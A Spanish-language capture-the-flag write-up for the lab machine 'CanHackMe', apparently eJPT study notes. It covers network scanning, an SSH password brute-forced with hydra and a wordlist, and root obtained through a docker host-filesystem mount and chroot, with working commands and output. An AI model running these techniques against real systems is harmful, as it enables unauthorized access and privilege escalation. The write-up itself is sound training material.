


# CanHackMe

Plataforma: HackersLabs
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 9 de febrero de 2025 17:07
IP: 192.168.0.137

## Recopilación de información

<aside>
💡 Reconocimiento general

</aside>

Identificación del sistema

```bash
sudo arp-scan -I eth0 --localnet
Interface: eth0, type: EN10MB, MAC: 00:0c:29:c6:24:65, IPv4: 192.168.0.246
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.0.1	02:10:18:37:9b:14	(Unknown: locally administered)
192.168.0.91	a0:88:69:69:7d:2d	Intel Corporate
192.168.0.110	24:2f:d0:54:73:f6	(Unknown)
192.168.0.202	fc:8f:90:a5:1d:14	Samsung Electronics Co.,Ltd
192.168.0.137	00:0c:29:88:50:b6	VMware, Inc.

5 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 3.230 seconds (79.26 hosts/sec). 5 responded
❯ whichSystem.py 192.168.0.137

	192.168.0.137 (ttl -> 64): Linux
```

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -n -Pn -vvv 192.168.0.137 -oG targeted

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 00:0C:29:88:50:B6 (VMware)
```

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
sudo nmap -p22,80 -sCV 192.1638.0.137 -oN targeted

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a8:da:3d:7d:c8:cd:c7:69:ce:ed:13:fa:de:b9:96:50 (ECDSA)
|_  256 03:24:b9:cc:0b:c2:15:09:db:73:9b:b5:24:d5:41:ca (ED25519)
80/tcp open  http    Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://canyouhackme.thl
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 00:0C:29:88:50:B6 (VMware)
Service Info: Host: 172.17.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- **Identificación de vulnerabilidades**
    - 22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5
    - 80/tcp open  http    Apache httpd 2.4.58

- **ENUMERACIÓN WEB**
    
    
    
    Añadimos host
    
    ```bash
    sudo nano /etc/hosts
    192.168.0.137   canyouhackme.thl
    ```
    



Revisamos el codigo fuente:

```html
<script>
        const canvas = document.getElementById('matrix');
        const ctx = canvas.getContext('2d');
        canvas.width = window.innerWidth;
        canvas.height = window.innerHeight;
/* Hola juan, te he dejado un correo importate, cundo puedas, leelo */
        const fontSize = 16;
        const columns = Math.floor(canvas.width / fontSize);
        const drops = Array(columns).fill(0);
        const matrixChars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz123456789@#$%^&*(),;.:-_'?¡¿!\"";

        function drawMatrix() {
            ctx.fillStyle = 'rgba(0, 0, 0, 0.05)';
            ctx.fillRect(0, 0, canvas.width, canvas.height);

            ctx.fillStyle = '#00ff00';
            ctx.font = `${fontSize}px Courier`;

            for (let i = 0; i < drops.length; i++) {
                const text = matrixChars[Math.floor(Math.random() * matrixChars.length)];
                ctx.fillText(text, i * fontSize, drops[i] * fontSize);

                if (drops[i] * fontSize > canvas.height && Math.random() > 0.975) {
                    drops[i] = 0;
                }

                drops[i]++;
            }
        }

        setInterval(drawMatrix, 50);

        window.addEventListener('resize', () => {
            canvas.width = window.innerWidth;
            canvas.height = window.innerHeight;
            drops.fill(0);
        });
    </script>
```

Aparece usuario “Juan”

Mientras revisamos el resto de la web, dejamos buscando con hydra si hay algun password para este usuario

```bash
❯ hydra -t16 -l Juan -P /usr/share/wordlists/rockyou.txt 192.168.0.137 ssh

[STATUS] 40.27 tries/min, 604 tries in 00:15h, 14343799 to do in 5937:01h, 12 active
[22][ssh] host: 192.168.0.137   login: juan   password: matrix
1 of 1 target successfully completed, 1 valid password found
```

Enontramos e password: matrix

## Explotación

<aside>
💡 Probamos diferentes accesos

</aside>

### Explotación 1

Accedemos con el usuario y password encontrados

```bash
ssh juan@192.168.0.137 
User flag: 44053-----
juan@TheHackersLabs-CanYouHackMe:~$ 
```

### Explotación 2

Vemos que en el home de Juan, hay la carpeta docker. 

Procedemos a listar las imagenes docker

```bash
juan@TheHackersLabs-CanYouHackMe:~/snap$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    91ef0af61f39   5 months ago   7.8MB
```

Ahora vemos con que privilegios se está ejecutando:

```bash
juan@TheHackersLabs-CanYouHackMe:~/snap$ docker run --rm -it alpine sh -c "whoami"
root
```

### Escalada de privilegios

Ahora provamos a spawnear una shell como root

```bash
 juan@TheHackersLabs-CanYouHackMe:~/snap$ docker run --rm -it alpine sh
/ # whoami
root
/ # ls
bin    dev    etc    home   lib    media  mnt    opt    proc   root   run    sbin   srv    sys    tmp    usr    var
```

Listamos y vemos que estamos dentro del contenedor y no en el host pricipal. Al tener permisos de root dentro del contenedor vemos que podemos escalar privilegios co (GTFObins)

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt bash

docker run: Lanza un nuevo contenedor basado en una imagen de Docker.

-v /:/mnt: Monta el sistema de archivos raíz del host (/) dentro del contenedor en el directorio /mnt. Esto permite al contenedor acceder al sistema de archivos del host.

--rm: Elimina automáticamente el contenedor cuando finaliza su ejecución, limpiando los recursos usados.

-it: Ejecuta el contenedor de manera interactiva (-i mantiene el flujo de entrada abierto, y -t asigna una pseudo-terminal).

alpine: Usa la imagen ligera de Alpine Linux para crear el contenedor.

chroot /mnt: Cambia la raíz del sistema de archivos dentro del contenedor al directorio /mnt, que está montado en el sistema de archivos del host.

bash: Inicia el shell bash dentro del nuevo entorno del contenedor.

En pocas palabras, este comando monta el sistema de archivos del host dentro de un contenedor de Alpine y cambia el entorno raíz del contenedor a ese sistema de archivos, permitiendo ejecutar el shell bash con acceso al host.
```

```html
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# whoami
root
# ls
bin  boot  dev	etc  home  host  lib  lib32  lib64  libx32  media  meta  mnt  opt  proc  root  run  sbin  snap	srv  sys  tmp  usr  var  writable
# cd root
# ls
root.txt  snap
root@76bc47806862:~# cat root.txt 
233----
```

## Conclusión

<aside>
💡 Maquina fácil en la que veo por primera vez tema de contenedores de docker

</aside>